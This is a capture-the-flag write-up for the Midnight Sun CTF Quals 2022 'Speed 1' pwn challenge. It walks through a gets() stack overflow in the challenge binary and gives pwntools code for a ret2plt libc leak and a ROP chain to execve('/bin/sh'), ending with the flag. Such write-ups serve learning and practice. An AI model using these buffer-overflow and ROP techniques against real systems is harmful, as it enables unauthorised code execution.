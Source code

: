 Midnight Sun CTF Quals 2022 - Speed 1 (PWN)
==

We are given a 64 bits binary with it's libc, with the following protections :

![](https://i.imgur.com/Nei6IxH.png)

No canary, no PIE (Position Independent Executable) and NX enable with a Partial RELRO.

The decompiled main function is the following : 

```c
int main(void)
{
    char buffer [32];
  
    setvbuf(stdin,(char *)0x0,2,0);
    setvbuf(stdout,(char *)0x0,2,0);
    alarm(0x3c);
    print_banner();
    printf("b0fz: ");
    gets(buffer);
    return 0;
}
```

There a call to gets() function which is vulnerable to buffer overflow because it doesn't check the size of input.

So it's clear that the vulnerability to exploit is a buffer overflow.

# ret2plt

We are going to make a **ret2plt** to leak the address of a libc function, in our case puts, the we'll return at the beginning of the program and make our ropchain.

First stage will be to leak puts address in libc, so we're going to put in **RDI** (argument to puts) the address puts in **GOT** then call puts in **PLT**. After this we'll jump back to the beginning of **main()**.

But we first need to patch our binary with **pwninit** so the binary will use the libc given. Just launch the following command : 

```sh
pwninit --bin speed1 --libc libc.so.6
```

Now we can begin our exploit. So to overwrite **RIP** we need a padding of 40, 32 to fill the buffer, 8 to overwrite **RBP**. So let's build the first stage : 

```py
PADDING = b'A'*40
POP_RDI = 0x4012b3
POP_RSI = 0x4012b1
BIN_SH  = 0x1b45bd
MAIN    = 0x4011cf

first_stage = flat({
        PADDING,
        p64(POP_RDI),
        p64(elf.got.puts),
        p64(elf.plt.puts),
        p64(MAIN)
    })
```

So now the binary will leak the address of puts in libc and we can parse it and get libc base like that for example : 

```py
puts_leak = int(bytes.hex(r.recv()[0:6][::-1]), 16)
libc.address = puts_leak - libc.symbols.puts
```

# ret2execve

Now comes to part where I blocked for some minutes because I first tried to make a **ret2libc** with a call to **system** but unfortunately it hasn't worked for me at first try. So I didn't bother with it and try something I never tried. And I guess we can call this "technique" a **ret2execve**.

So we take a look an the arguments that takes **execve()** syscall.

![](https://i.imgur.com/lJZjHfT.png)
![](https://i.imgur.com/hjgfOC5.png)

So our command is stored in **RDI**. By making a **POP RDI** we can put our string **/bin/sh**. But we can see that the syscall has an **argv** to a random value in libc : 

![](https://i.imgur.com/2lx87SI.png)

So we need to set **RSI** to 0 then our call is equivalent to **execve("/bin/sh", NULL, NULL)**. So we are lucky there's a gadget which makes a **POP RSI** ; **POP R15**. So now we just need to build our second stage payload : 

```py
second_stage = flat({
        PADDING,
        p64(POP_RDI),
        p64(libc.address + BIN_SH),
        p64(POP_RSI),
        p64(0x0),
        p64(0x0),
        p64(execve),
        p64(exit_func)
    })
```

Now, we can launch the [exploit](https://), get a shell and get the flag : 

![](https://i.imgur.com/Zy8yDzl.png)

Flag : **`midnight{b3ee4fd1e8b331a237b234395d1ad0a0}`**